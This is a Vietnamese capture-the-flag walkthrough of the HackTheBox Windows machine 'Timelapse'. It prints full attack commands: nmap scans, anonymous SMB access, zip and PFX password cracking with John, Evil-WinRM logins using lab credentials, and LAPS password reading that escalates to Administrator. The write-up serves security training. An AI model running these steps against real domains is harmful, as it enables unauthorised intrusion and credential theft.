# Timelapse

## Synopsis

Timelapse là một Easy Windows machine liên quan đến việc vào một share SMB có thể truy cập công khai chứa một file zip có key PFX. File zip này yêu cầu password, có thể crack bằng cách sử dụng John. Giải nén file zip cho thấy nó chứa một file PFX được mã hóa bằng password, cũng có thể được thu thập sử dụng John bằng cách chuyển đổi file PFX sang định dạng hash mà John có thể đọc được. Từ file PFX, có thể trích xuất certificate SSL và private key được sử dụng để đăng nhập bằng WinRM. Sau khi xác thực, phát hiện ra một file history PowerShell chứa thông tin đăng nhập cho user `svc_deploy`. Liệt kê người dùng cho thấy `svc_deploy` là một phần của group có tên `LAPS_Readers`. Group `LAPS_Readers` có khả năng quản lý password trong LAPS, cho phép bất kỳ user nào từ group này đọc password local cho các machine trong domain, do đó, bằng cách lạm dụng sự tin cậy này, lấy được password cho Administrator và có được session WinRM.

### Skill Required

- Enum

- Crack password

- Hiểu biết cơ bản về Windows

### Skill Learned

- Public SMB Share

- LAPS Privilege Escalation

## Enumeration

### Nmap

Bắt đầu bằng cách scan các port mở bằng `Nmap`.

```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.166 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.11.166
```



Output của Nmap hiển thị nhiều port mở, tên machine là `dc01` và tên domain là `timelapse.htb`. Nhận thấy SMB đang mở nên xác minh xem có thể truy cập anonymous vào bất kỳ share nào không.

### PFX file

Để xem các share SMB khả dụng, sử dụng command sau.

```
smbclient -L //10.10.11.152/
```



Output ở trên cho thấy có một share có tên `Shares`, có thể truy cập mà không cần sử dụng bất kỳ thông tin xác thực nào.

```
smbclient //10.10.11.152/Shares
```



Tìm thấy hai folder có tên là `Dev` và `HelpDesk`. Trong folder `Dev`, tìm thấy một file zip có tên là `winrm_backup.zip`. Việc giải nén file này yêu cầu password hiện không có. Cố gắng crack password bằng công cụ crack hash `John`, nhưng trước tiên sử dụng tiện ích `zip2john` để chuyển đổi file zip thành định dạng hash.

```
zip2john winrm_backup.zip > zip.john
john zip.john -wordlist:/usr/share/wordlists/rockyou.txt
```



Output là một file PFX chứa chứng chỉ SSL ở định dạng `PKCS#12` và private key. File PFX có thể được WinRM sử dụng để đăng nhập mà không cần mật khẩu. Trích xuất chúng từ file.

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```



Output ở trên cho thấy cần một password khác với `supremelegacy`. Sử dụng tiện ích `pfx2john`, chuyển đổi file `pfx` thành hash format rồi sử dụng `John` để crack password. Sử dụng command sau, có thể crack thành công password vào file `pfx`.

```
python2 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.john
john pfx.john -wordlist:/usr/share/wordlists/rockyou.txt
```



```
LƯU Ý: Đối với những người sử dụng Python3, xóa b' và ' khỏi output của script Python để đảm bảo John đọc đúng hash.
```

Sau khi crack được password, trích xuất certificate SSL và private key file pfx bằng các command sau.

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

## Exploitation

### Foothold

Vì đã giải mã file `pfx` và tạo key và cert hợp lệ, có thể thử đăng nhập thông qua WinRM. Trong output của lệnh Nmap, có thể thấy port 5986 đang mở, thường được WinRM sử dụng nhưng sử dụng SSL thay vì các kết nối không được mã hóa. Vì `Evil-WinRM` cho phép truyền key và cert bằng flag `-c` và `-k` nên có thể truyền cert, key và xác thực với target.

Sau khi đăng nhập, thực hiện một số enum thủ công để xem liệu có thể nâng cao đặc quyền bằng cách kiểm tra history command hay không. Làm như vậy sẽ hiển thị thông tin đăng nhập mới.

```
evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S
whoami
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```



Sử dụng thông tin đăng nhập mới, có thể đăng nhập thông qua `Evil-WinRM` bằng command sau.

```
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

Khi đăng nhập, có thể kiểm tra xem `svc_deploy` là member của group nào.

```
net user svc_deploy
```



### Privilege Escalation

Output của command trước cho thấy `svc_deploy` là một phần của group `LAPS_Readers`. "Local Administrator Password Solution" (LAPS) được sử dụng để quản lý password account local của máy tính Active Directory. Có một mô-đun PowerShell có thể được sử dụng để lấy lại password này có thể được tìm thấy trên github có tên là AdmPwd.PS. Nó có thể được tải lên bằng `Evil-WinRM` bằng lệnh sau.

```
upload AdmPwd.PS
```



Sau khi tải mô-đun lên, có thể kiểm tra object nào có thể quản lý LAPS bằng cách sử dụng command sau.

```
Find-AdmPwdExtendedRights -identity *
```



Từ output, có thể thấy Domain Controllers. Xem những người giữ quyền để xem có thể quản lý password hay không. Thực hiện việc này bằng cách sử dụng command sau.\

```
Find-AdmPwdExtendedRights -identity 'Domain Controllers' | select-object ExtendedRightHolders
```



Output của command trước đó cho thấy group LAPS_Readers có quyền ủy quyền trên Domain Controllers cho phép đọc mật khẩu của user trong object này. Lấy lại password bằng cách sử dụng command sau.

```
get-admpwdpassword -computername dc01 | Select password
```



Thử xác thực thông qua `Evil-WinRM` bằng thông tin đăng nhập mới bằng command sau.

```
evil-winrm -i 10.10.11.152 -u administrator -p '/1B@QZe3{BAAwzs%KY$pTb7d' -S
```



Có một shell với tư cách là `administrator` và có thể đọc root flag.